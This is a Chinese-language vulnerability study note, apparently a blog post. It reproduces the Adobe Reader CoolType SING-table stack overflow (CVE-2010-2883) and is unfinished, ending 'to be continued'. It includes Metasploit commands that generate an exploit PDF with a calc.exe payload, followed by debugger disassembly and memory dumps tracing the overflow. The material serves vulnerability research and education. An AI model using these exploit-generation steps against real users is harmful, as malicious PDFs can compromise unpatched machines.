

本篇文章是根据书籍《漏洞战争》第二章栈溢出漏洞来复现，并记录笔记
0x00 漏洞描述
AdobeReader的CoolType模块解析TTF字体中的SING表数据时，没有对uniqueName字段的长度判断，导致后面使用strcat函数拷贝时发生溢出
0x01 分析环境
- Adobe Reader v9.3.4
- Windows XP sp3
- PdfStreamDumper
- 010Editor
- Immunity Debugger v1.85
- IDA Pro 6.8
- gflags.exe
0x02 根据字符串定位漏洞
使用IDA加载CoolType.dll，等待自动分析完成，使用ALT+T打开搜索框，输入SING，然后勾选Identifier
第一次搜索就可以定位到漏洞函数

0x03 使用MSF生成Exploit样本
search cve:2010-2883
use exploit/windows/fileformat/adobe_cooltype_sing
set payload windows/exec
set cmd calc.exe
exploit
使用MSF先搜索cve编号，可能会有两个结果，选择Fileformat路径下的Exploit脚本，设置Payload来弹一个计算器
0x04 TTF文件
我们知道漏洞出现在解析字体数据结构时，我们需要从PDF中导出这个字体文件，需要用到工具PdfStreamDumper
导出后，使用工具010Editor打开
上面标红的地方需要记忆一下，后面在调试中dump内存时，需要对数据敏感
上面标红的地方是一个数组的开始，数组中每一个元素是TableEntry结构体
typedef sturct_SING
{
char tag[4];//"SING"
ULONG checkSum;//校验和
ULONG offset;//相对文件偏移
ULONG length;//数据长度
} TableEntry;
结构体中的offset偏移字段指向了另外一个结构体，由于结构体的文档需要在Adobe官网下载，但是目前链接已经失效了！
offset的值是0x11C，长度是0x1DDF，在010Editor中使用快捷键CTRL+SHIFT+A，可以根据输入的范围选择内容
0x05 调试POC
使用工具eflags.exe来帮助我们自动附加Adobe Reader
因为前面使用IDA已经定位到触发漏洞的函数了，所以直接在ImmunityDebugger中跳转到漏洞现场
附加调试启动后，自动断在系统断点，我们需要按F9让它先跑一次，程序跑完，再按ALT+E查看可执行模块列表中找到加载CollType.dll，双击它，进入该模块领空，在漏洞现场最近的一处CALL的地址0803DD7D下断点
断点下好后，重新运行程序，跑了一小会儿！停在我们下的断点的地方了
0803DD74 PUSH CoolType.0819DB4C ; ASCII "SING"
0803DD79 PUSH EDI
0803DD7A LEA ECX,DWORD PTR SS:[EBP-24]
0803DD7D CALL CoolType.08021B06
调用函数08021B06时，传入两个参数：EDI、字符串"SING"还有一个ECX，我们可以把它想象成this指针
调用函数前，寄存器的值
Registers
EAX 00000000
ECX 0012E4B4
EDI 0012E718
需要再看看这几个寄存器所指向的内存都是啥，有没有敏感数据，先看ECX
ECX DUMP
0012E4B4 20 67 7C 03 50 6C FC 01 00 00 00 00 00 00 00 00 g|Pl?........
这时我们并看不到什么有趣的信息，但是在20 67 7C 03处右键选择Follow DWORD in Dump
我们可以看到熟悉的数据了，里面保存的是TTF文件的内容
那么EDI呢？
EDI DUMP
0012E718 00 00 00 00 6D 00 00 00 01 00 00 00 01 00 00 00 ....m.........
EDI啥也没有～，我们F8单步，执行这个函数，然后分析函数执行后的信息
函数执行后
寄存器：
EAX 0012E4B4 // 返回的是之前ECX的值
ECX 6AB91743 // 某种HASH或者ASCII
EDI 0012E718 //没发生变化
函数执行完后，EAX中保存的是进入函数前ECX的值，我们dump一下EAX
EAX DUMP
0012E4B4 78 6B 7C 03 DF 1D 00 00 00 00 00 00 00 00 00 00 xk|?..........
指针0012E4B4指向的数据变了，前四个字节78 6B 7C 03又是一个地址，右键Follow DWORD in DUMP看看
原来函数执行后，EAX指向的内存中，前四个字节78 6B 7C 03是一个指针，指向字体文件中SING表项结构体的offset字段指向的数据，而后四个字节DF 1D 00 00，其实是offset指向数据的大小
到现在为止，基本上可以推算这个函数的作用了，通过SING字符串，返回SING表offset指向的数据结构体
接着分析调用函数后面的汇编代码
0803DD74 PUSH CoolType.0819DB4C ; ASCII "SING"
0803DD79 PUSH EDI
0803DD7A LEA ECX,DWORD PTR SS:[EBP-24]
0803DD7D CALL CoolType.08021B06
// 函数调用后
0803DD82 MOV EAX,DWORD PTR SS:[EBP-24] ; EAX 被修改了
0803DD85 CMP EAX,ESI ; ESI = 0
0803DD87 MOV BYTE PTR SS:[EBP-4],2
0803DD8B JE SHORT CoolType.0803DDC4 ; 这里不会跳
我们可以看到EAX又被赋值为037C6B78，该地址是刚才0012E4B4指向内存的前四个字节，也就是SING结构体中offset指向的数据结构，后面简称SING数据
此时ESI的值为0，所以JE SHORT CoolType.0803DDC4这里也没跳
0803DD8D MOV ECX,DWORD PTR DS:[EAX] ;
0803DD8F AND ECX,0FFFF
0803DD95 JE SHORT CoolType.0803DD9F ; 跳了
EAX中取内容四个字节，ECX = 10000 & 0FFFF运算后结果为0，后面短跳指令条件成立，直接跳到了漏洞触发点
0803DD9F ADD EAX,10
0803DDA2 PUSH EAX ; /src
0803DDA3 LEA EAX,DWORD PTR SS:[EBP] ; |
0803DDA6 PUSH EAX ; |dest
0803DDA7 MOV BYTE PTR SS:[EBP],0 ; |
0803DDAB CALL <JMP.&MSVCR80.strcat> ; \strcat
ADD EAX,10，定位uniqueName字段，相对sing表入口偏移0x10
我们现在来到调用call strcat这行指令处，保存一下当前的环境快照
执行后，在dest数据处下内存访问断点，会断到BIB模块的一个函数中，从函数出来后，发现是刚才断在了strlen函数里面
从Strlen函数出来，把获取的长度0x23D又放到ESI中，然后自增1，长度变成了0x23E
然后调用了BIB.07018A98这个函数，返回一个地址035BB54，该地址随后作为memcpy的dest参数。src为之前触发漏洞的strcat函数的dest参数
随后我们看到在函数返回时，返回的是EDI的值，而EDI中保存的就是memcpy的dest地址
目前为止我们已知的三块内存区域存在shellcode：
- 加载pdf时读取的buffer
- 通过strcat拷贝到了0012E48D
- 通过memcpy拷贝到了035BB54
未完待续...
参考资源
http://sandsprite.com/CodeStuff/PDFStreamDumper_Setup.exe
http://ardownload.adobe.com/pub/adobe/reader/win/9.x/9.3.4/enu/AdbeRdr934_en_US.exe
http://www.ccma.cat/llibredestil/sites/www.ccma.cat.llibredestil/files/GuiaEditorialENG.pdf